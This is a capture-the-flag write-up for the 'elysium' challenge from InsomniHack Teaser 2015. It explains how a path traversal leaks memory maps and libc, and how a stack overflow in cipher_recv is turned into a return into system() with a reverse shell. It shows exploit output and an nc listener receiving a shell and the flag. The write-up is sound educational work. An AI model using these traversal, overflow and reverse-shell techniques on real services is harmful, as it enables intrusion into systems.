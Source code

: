 ```yaml
---
layout: post
title: "InsomniHack Teaser - elysium writeup"
categories: writeups insomnihack-teaser-2015
tags: exploitation
author: saelo
---
```


Just a quick writeup for the elysium (200pts) challenge from the InsomniHack Teaser CTF 2015. We ended up making the 6th place during the CTF :)

We're given a [binary]({{ site.url }}/files/insomnihack-teaser-2015/elysium) which, supplied with a port number, binds to that port and listens for incoming connections. Upon receiving an incoming connection it speaks a custom protocol with the client.

    > file elysium
    elysium: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b1730cced4284ad9a58d8948eaa55eb3beaccd90, not stripped
    > checksec elysium
    RELRO           STACK CANARY      NX            PIE             FILE
    Partial RELRO   No canary found   NX enabled    PIE enabled     elysium

After spending some time reversing the protocol I wrote a small [client](https://github.com/kitctf/writeups/blob/master/insomnihack-teaser-2015/elysium/code/client.py) to communicate with the server.
Here's a sample interaction with the server:

    Armadyne robots controller
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > 2
    Total units : 2925
    Medical units : 320
    Military units : 75
    Social units : 630
    Spy units : 227
    Shield units : 329
    Communication units : 250
    Transport units : 312
    Computer units : 782
    Available units : 5267
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > a 100
    Computer units added
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > 2
    Total units : 3025
    Medical units : 320
    Military units : 75
    Social units : 630
    Spy units : 227
    Shield units : 329
    Communication units : 250
    Transport units : 312
    Computer units : 882
    Available units : 5167


## Bug #1

Notice the "Get informations" option in the menu? This let's us read a file relative to a folder called 'Elysium_citizenship_authorization' in the current directory. Of course it does not check for path traversal so we can dump any file we want with this.

This is especially interesting since reading /proc/self/maps will allow us to bypass most of the ASLR of the target process (except the stack internal randomization). Also we can now retrieve the remote libc and get important offsets from there.

## Bug #2

In the cipher_recv function we see this:

![cipher_recv]({{ site.url }}/imgs/insomnihack-teaser-2015-cipher_recv.jpg)

'decrypted_buffer' is our decrypted message and 'data_buffer' is returned to the caller (contains just the user data without the hash). 'cmp' verifies that the given hash matches the other one given as hex string.

There's a bug in there, did you spot it?

The programmer expected the first part of the message (the sha1 hash) to always be 40 characters in size. Since we fully control the position of the ':' in the payload we can thus overflow the 'hash_buffer' which is located on the stack.

Exploitation of this bug turned out not to be so easy. Here's why: See the two calls to memset() and free() above? The first argument to those functions lies on the stack as well, between the buffer we're overflowing and the return address.
Here's the stack layout of the cipher_recv function:

    .text:000016C2 var_6D           = byte ptr -6Dh
    .text:000016C2 hash_buffer      = byte ptr -45h         # we're overflowing this one
    .text:000016C2 buf              = byte ptr -1Ch
    .text:000016C2 decrypted_buffer = dword ptr -18h        # get's freed
    .text:000016C2 recv_buffer      = dword ptr -14h        # get's freed as well
    .text:000016C2 var_10           = dword ptr -10h
    .text:000016C2 data_buffer      = dword ptr -0Ch
    .text:000016C2 socket           = dword ptr  8
    .text:000016C2 len_ptr          = dword ptr  0Ch
    .text:000016C2 decrypter        = dword ptr  10h


Now, free() will basically kill the process for any argument that's not a valid pointer to a heap chunk or NULL (from the man page: "If ptr is NULL, no operation is performed.").

The binary does some heap randomization after receiving a connection, preventing us from easily knowing the offsets of heap chunks from the start of the heap. However, it is possible to bypass this since the binary uses srand(time()) to initialize the prng, enabling us to calculate the same random number sequence as well. See [this exploit](https://twitter.com/OwariDa/status/554495951466135552) for an example on how to do this.

I actually missed that fact during the CTF and so went another route:

Besides /proc/self/maps there is another nifty file in /proc:

>        /proc/[pid]/syscall (since Linux 2.6.27)
>             This file exposes the system call number and argument registers for the system call
>             currently being executed by the process, followed by the values  of
>             the stack pointer and program counter registers.  The values of all six argument 
>             registers are exposed, although most system calls use fewer registers.

There's a pointer to userland esp in there! Neat! That enables us to bypass the stack internal randomization and calculate exactly at which address the buffer we're overflowing is located. At this point we're able to bypass the two free()s by pointing each pointer to itself and pointing the length pointer to 0x00000004, causing memset to overwrite it's argument pointer with zero. The subsequent call to free() will then become a nop.

At this point we have EIP control and can return into a little gadget to adjust the stack past the length pointer, then return into system() with the first argument pointing to our payload string on the stack (whose address we now know). I used a quick and dirty reverse shell payload for my exploit, see [@OwariDa](https://twitter.com/OwariDa)'s exploit for a better way to do this :)

Find the full exploit [here](https://github.com/kitctf/writeups/blob/master/insomnihack-teaser-2015/elysium/code/exploit.py).

    > ./exploit.py 
    [*] got target memory layout
    [*] stack buffer @ 0xbf8c25a3
    [*] controlled data @ 0xb7710104
    [*] system() @ 0xb73c3100
    [*] sending final payload...
    [*] done, check your listener

And, in a different shell:

    > nc -vl 0.0.0.0 4444
    Listening on [0.0.0.0] (family 0, port 4444)
    Connection from [54.76.18.92] port 4444 [tcp/*] accepted (family 2, sport 54559)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(esylium) gid=1001(esylium) groups=1001(esylium)
    $ ls
    elysium
    Elysium_citizenship_authorization
    reboot
    $ ./reboot

    --------------------------------------------------------
                     System Reboot >>> 5
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 4
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 3
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 2
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 1
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 0
    --------------------------------------------------------

    --------------------------------------------------------
                INS{reb00t_R0pch4ain_FTW}
    --------------------------------------------------------
    $ 

Now all that's left to do is to watch the [movie](http://www.imdb.com/title/tt1535108/) some time ... ;)
